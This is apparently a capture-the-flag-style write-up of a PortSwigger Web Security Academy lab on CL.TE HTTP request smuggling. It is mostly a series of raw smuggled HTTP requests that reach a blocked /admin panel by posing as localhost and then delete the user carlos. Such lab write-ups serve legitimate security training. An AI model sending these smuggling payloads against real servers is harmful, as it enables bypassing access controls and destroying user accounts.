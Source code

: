 Title: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos
Hint: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel. 

Hint2: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store. 

# Walkthrough:
<img width="692" height="110" alt="image" src="https://github.com/user-attachments/assets/f63bdd26-a345-4f83-ba00-875ea4d32adf" />


<img width="521" height="217" alt="image" src="https://github.com/user-attachments/assets/e880a02d-f333-4253-a2c1-6287da479955" />
Requesting the following request twice:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
Second request says: Unauthorized
<img width="1080" height="232" alt="image" src="https://github.com/user-attachments/assets/ee4abcd3-a2ac-43cd-a91e-52b05dd3817f" />

We can see in error message (in response to first request being sent twice), that admin panel is only visible for local users. So we add : `Host: localhost`
Requesting the following request twice:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```
Now we have another error: Duplicate header names are not allowed:
<img width="1250" height="252" alt="image" src="https://github.com/user-attachments/assets/b319f541-5d05-443c-99ad-a3257fc92f77" />

We send again, following header twice:
```
POST / HTTP/1.1
Host: 0ac200f904ed70df8195b617001b00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

x=
```

And we get to the admin panel.

Sending this request twice:
```
POST / HTTP/1.1
Host: 0ac200f904ed70df8195b617001b00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

x=
```
And we have carlos deleted.

